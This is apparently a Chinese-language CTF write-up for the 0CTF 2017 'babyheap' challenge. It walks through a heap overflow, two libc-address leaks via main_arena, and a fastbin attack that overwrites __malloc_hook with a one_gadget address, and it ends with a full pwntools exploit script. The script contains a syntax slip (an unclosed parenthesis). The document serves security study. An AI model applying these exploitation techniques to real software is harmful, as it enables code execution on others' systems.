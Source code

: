 题目四个功能 alloc fill free dump

![image](https://github.com/lhc328/pwn/blob/master/picture/20170ctfbabyheap/1.png)

（fast chunk 没有标志位 没有bk 不会合并）

题目分析

	考察点：fastbin attack

	漏洞：chunk的填充范围可大于chunk的大小，覆盖到下面的chunk

	求出libc_base，修改malloc_hook内容为shellcode，执行malloc()，等于执行getshell

第一步 求出libc_base

	两种方法

	第一种  伪造一个大chunk a覆盖下一个大于0x80的chunk b，free掉下一个chunk b，然后show伪造的chunk a，得到chunk b的fd，fd指向main_arena

    alloc(0x60)
    alloc(0x40)
    fill(0, 0x60+0x10, 'a'*0x60 + p64(0) + p64(0x71))

	新建两个块，用chunk0覆盖掉chunk1的头

	

    alloc(0x100)
    fill(2, 0x20, 'c'*0x10+p64(0)+p64(0x71))
    free(1)
    alloc(0x60)
    fill(1, 0x40+0x10,'a'*0x40+p64(0)+p64(0x111))
    alloc(0x50)
    free(2)
    dump(1)

	新建一个0x100的chunk2，填充chunk2，伪造一个chunk头，距离跟chunk1刚好适合修改了的chunk1的大小，这时我们把chunk1 free掉再申请，那么chunk1真的变成0x60大了，而且还刚好覆盖掉chunk2的fd和bk的位置。

	利用chunk1修复chunk2的头，再申请一个chunk3，以防chunk2被合并，把chunk2 free掉，再把chunk1 dump出来，main_arena就出来了





求偏移：0x7f5d2bec3b78 - 0x 7f5d2bb28000 = 0x39bb78

(靶机偏移是0x3a5678   与我机差值0x9b00)

	第二种  不同指针指向同一chunk，一个free，另一个show，便得到main_arena地址

    alloc(0x10)
    alloc(0x10)
    alloc(0x10)
    alloc(0x10)
    alloc(0x80)
    free(1)
    free(2)
    payload = p64(0)*3+p64(0x21) + p64(0)*3+p64(0x21) + p8(0x80)
    #借用chunk0修改chunk2的fd指向chunk4
    fill(0, payload)
    payload = p64(0)*3+p64(0x21) + p64(0x21)
    #借用chunk3修改chunk4的头
    fill(3, payload)
    alloc(0x10)
    alloc(0x10)
    #这时指针 2 和 4 同时指向chunk4
    payload = p64(0)*3+p64(0x21) + p64(0x91)
    #借用chunk3恢复chunk4的头
    fill(3, payload)
    alloc(0x80)
    free(4)
    dump(2)
    #指针2就把chunk4的内容dump出来了

第二步 修改malloc_hook内容

	free掉两个chunk，然后修改chunk的fd为malloc_hook的地址，但系统会检测fd指向chunk的头size是否适合，所以我们找找malloc_hook地址前的数据，发现把地址偏移一下，便可构造出size为0x7f的chunk头，所以fd的内容应为malloc_hook地址加偏移量

 

malloc_hook偏移为0x3a5610



可见，malloc_hook上方存在0x7f，可以伪造头，只要把地址偏移一下就可以通过检查建立一个0x60的chunk，然后填充数据修改malloc内容。  偏移为 0x10+0x8+0x3+0x8。



shellcode依然由one_gadget取得



执行alloc，就会getshell。

exp：

    from pwn import *
    import sys
    
    def alloc(size):
      r.recvuntil("Command: ")
      r.sendline("1")
      r.recvuntil("Size: ")
      r.sendline(str(size))
     
    def fill(idx, length, content):
      r.recvuntil("Command: ")
      r.sendline("2")
      r.recvuntil("Index: ")
      r.sendline(str(idx)
      r.recvuntil("Size: ")
      r.sendline(str(length))
      r.recvuntil("Content: ")
      r.send(content)
          
    def free(idx):
      r.recvuntil("Command: ")
      r.sendline("3")           
      r.recvuntil("Index: ")
      r.sendline(str(idx))
                 
    def dump(idx):
      r.recvuntil("Command: ")
      r.sendline("4")           
      r.recvuntil("Index: ")
      r.sendline(str(idx))  
      r.recvuntil("Content: \n")
      return r.recvline()[:-1]
                 
    def exploit(r):
       alloc(0x60)
       alloc(0x40)
       fill(0, 0x60+0x10, 'a'*0x60 + p64(0) + p64(0x71))
       alloc(0x100)
       fill(2, 0x20, 'c'*0x10+p64(0)+p64(0x71))
       free(1)
       alloc(0x60)
       fill(1, 0x40+0x10,'a'*0x40+p64(0)+p64(0x111))
       alloc(0x50)
       free(2)
       libcbase = u64(dump(1)[-8:]) - 0x3a5678
       
       malloc_hook = libcbase + 0x3a5610
       execve_addr = libcbase + 0x41374
       free(1)          
       payload = 'a'*0x60 + p64(0) + p64(0x71) + p64(malloc_hook - 27 - 0x8) + p64(0)
       fill(0, 0x60+0x10+0x10, payload)
       alloc(0x60)
       alloc(0x60)         
       payload = p8(0*3) + p64(0)*2 + p64(execve_addr)
       fill(2, len(payload), payload)
       alloc(0x20)
                 
    r = process("./babyheap")
    #r = remote()
    #print util.proc.pidof(r)
    pause()
    exploit(r)             


